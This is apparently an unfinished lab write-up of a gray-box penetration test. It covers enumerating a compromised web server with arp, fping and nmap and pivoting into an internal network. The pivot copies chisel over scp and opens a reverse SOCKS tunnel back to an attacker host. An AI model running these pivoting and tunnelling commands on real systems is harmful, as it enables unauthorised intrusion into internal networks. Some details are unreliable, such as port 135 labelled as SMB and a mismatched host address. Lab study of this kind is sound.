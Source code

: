 Kindly Note that the test carried out in this lab environment  was a gray box test, meaning that some information was provided, and oin situations where these information were not provided, alternates methods wwould be used
e.g credentials of the compromised webserver

# PART A : Enumeration 



# PART B - Enumerating the Compromised webserver to Pivoting into the internal network 
Tools used in this section includes
   a. ssh for remote access to the compromised server
   b. curl: to access the websiite on the webserver
   c. chisel: 
   d. proxychains: To help 
   d. xfred

## Enumeration
This is the act of getting information from a target, and in this environment, an active recon was done
1. The webserver was accessed using the credentials (compromisd or provided) via ssh from the external network
   ssh ah01crt@192.168.10.247

![image](https://github.com/user-attachments/assets/61aa8f9f-6424-4b18-a29f-2568cd4f5c11)

2. The network interfaces of the compromised webserver was  enumerated and it provided an additional network interface that connects to the internal network
![image](https://github.com/user-attachments/assets/508cc111-95d0-4a37-bf0b-2654a58ba743)

3. The newly found interface was then enumerated:
     a. using the command arp - a, the IP addresss 10.10.10.2, 10.10.10.21 were discovered
   ![image](https://github.com/user-attachments/assets/ba65af0f-7578-4bc4-a9cc-0ea183d5ea1e)
      b. using the command fping  -agq 10.10.10.0/24, only 10.10.10.2 was newly discovered; the tool did not discover 10.10.10.21
   ![image](https://github.com/user-attachments/assets/3eb64036-30d6-4237-8253-a34bc0016d24)
      c. 
4. The hosts were then enumerated individually
     a. 10.10.10.22 host: using nmap -sT 10.10.10.2 -Pn, the result returned a couple of ports (53 -domain, 135 - SMB, 636- ldapssl, and oothers) which giives an indication tat 
   ![image](https://github.com/user-attachments/assets/3277b9f2-50d1-433a-8527-04233a4ce241)

   b. 10.10.10.21 host: using nmap -sT 10.10.10.21 -Pn. This returned port 135 -msrpc, 3389 -ms-wbt-server, this confirms that this is a windows machine and it is running a remote desktop

   ![image](https://github.com/user-attachments/assets/a55df725-3306-4c50-9df1-0a2b8721f1ce)

## Pivoting

Pivoting is the act of moving through different sections of  netwworks. in this environment, pivoting worked by using the attacker's machine on 192.168.10.42 to connecct to internal services running on 10.10.10.21 via the compromised server running on 192.168.10.247 and 10.10.10.17

A tool called chisel  in combination with proxychains were used here.
1. Sending the chisel tool to the compromisedd web server: This was done using the command "scp chisel ah01crt@192.168.10.247:/tmp
![image](https://github.com/user-attachments/assets/af642470-46e9-4e7a-8339-edebeca10a3d)

2. Running Chisel: After chisel hass been sent to the tmp direectory on the compromised web server, the tool was started on both the attaer machine and the compromised server
         a. Attacker machine:chisel server --socks5 --reverse 
![image](https://github.com/user-attachments/assets/4f68d466-73f3-4302-aeb4-b45da1e8daa5)
         b. on the victim machine:  ./chisel client --fingerprint pqh2eK8bDpDPiMPeTx8dAd+N0/lF9cVxo5ZoVwz8yRs= 192.168.10.42:8080 R:socks
![image](https://github.com/user-attachments/assets/8e1eb033-e00b-4636-ba96-2a6f61056be7)

3. Confirming chisel's workings: To confirm that the tool is working and we can indeed connct to the internal network,
         a. connecting to the compromised webserver via SSH using thee internal network of the server: using the command  proxychains ssh ah01crt@10.10.10.17
   This worked and it is a prove that we can connect to the internal network
   ![image](https://github.com/user-attachments/assets/e281081b-f397-4985-85a8-336b885ca95e)
         b. Connecting to the webserver's website via the internal Ip: using the command  proxychains curl 10.10.10.17  
   ![image](https://github.com/user-attachments/assets/90d02adc-8822-4ee4-85ea-2234099a6504)

4. Accessing services on the 10.10.10.21 host: Since this host runs a remote desktop service, the service was tried 




![image](https://github.com/user-attachments/assets/b455f8c4-8379-4db3-9f56-9f7258aa96f2)

